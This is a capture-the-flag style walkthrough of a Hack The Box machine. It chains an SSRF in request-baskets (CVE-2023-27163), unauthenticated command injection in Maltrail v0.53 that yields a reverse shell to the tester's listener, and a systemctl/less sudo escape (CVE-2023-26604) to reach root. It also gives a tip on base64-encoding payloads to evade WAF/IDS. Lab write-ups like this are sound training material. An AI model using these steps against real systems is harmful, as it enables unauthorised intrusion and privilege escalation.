





This box is ranked easy difficulty on HTB. It involves us exploiting an SSRF vulnerability to forward a web server running internally on port 80. Then, we use a known way to inject OS commands on that service to grab a shell. Finally, an outdated version of the systemctl binary allows for a local privilege escalation by running checking the status of a server and spawning a shell as root.

## Scanning & Enumeration
I begin with an Nmap scan against the given IP to find all running services on the host.

```
$ sudo nmap -p22,80,8338,55555 -sCV 10.129.229.26 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-28 03:48 CST
Nmap scan report for 10.129.229.26
Host is up (0.055s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     http    Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 28 Jan 2026 09:47:50 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 28 Jan 2026 09:47:34 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 28 Jan 2026 09:47:34 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.34 seconds
```

There are four ports open:
- SSH on port 22
- A web server on port 80 (filtered)
- unknown service on port 8388
- A Golang web server on port 55555

Looks to be heavily web focused so let's go check out the landing page. Port 80 just hangs when I navigate to it, so maybe it's just used as a reverse proxy or something similar.

The application on port 55555 seems to be used for inspecting HTTP packets, almost like a web-based Wireshark. The page's footer discloses that it's powered by request-baskets v1.2.1 .


## SSRF
I Google this software to find any known exploits, since it's open source and find [CVE-2023–27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) which is prone to SSRF via the baskets API. We can send a specially crafted API request to /api/baskets/{name} to access sensitive information and network resources on the server.

I find this [PoC](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3) containing a script for us to replicate on this machine. I use this to find out what is running on port 80 by supplying the first URL of the site running request-baskets and then the localhost IP with port 80 after it. 



Executing that will create a new basket at a strange string and navigating to it will forward the page on port 80 to our browser.



This page looks pretty scarce as we can't load too much using this technique, however it is being powered by Maltrail v0.53. Once again Googling for known vulnerabilities against this service gives us an exploit for unauthenticated OS command injection via the username parameter. 

## Initial Foothold
This is the [PoC script]((https://github.com/spookier/Maltrail-v0.53-Exploit)) I used in my instance. It just automates the process for spawning a reverse shell, but you can do this manually by appending a semicolon and your shell payload after the username parameter.

```
python3 exploit.py 10.10.15.133 9001 http://10.129.229.26:55555/uqiunh
```

This vulnerability exists due to unsanitized user input in one of the parameters. If needed, it is possible to base64 encode the payload to bypass any WAF, IDS, or IPS.



I get a shell on the machine as 'puma' and start looking at ways to escalate privileges to root. We can also grab the user flag under their home directory.

Privilege Escalation
Listing Sudo permissions for our current account show that we can run a status check on trail.service using the systemctl binary as root user. The version installed is 245.4 for Ubuntu, so let's try to find any exploits regarding this particular case.



I end up finding [CVE-2023–26604](https://nvd.nist.gov/vuln/detail/cve-2023-26604), which states that versions predating 247 don't adequately block local privesc for some Sudo configurations. More specifically it fails to set the `LESSSECURE` environment var to 1, meaning that other programs may be launched from the less binary's program.

When we run the systemctl status command as Sudo, the less command gets executed as root because it can not display the full output of the status and in turn, we can spawn a root shell from that.

To use this exploit simply run the Sudo command to display the status in its entirety, and then type `!/bin/bash` once in the smaller looking terminal to spawn a root shell. 



That's all folks. This box was fun as it tested our ability to find vulnerabilities and exploits from search engines or by other means. I hope this was helpful to anyone following along or stuck and happy hacking!
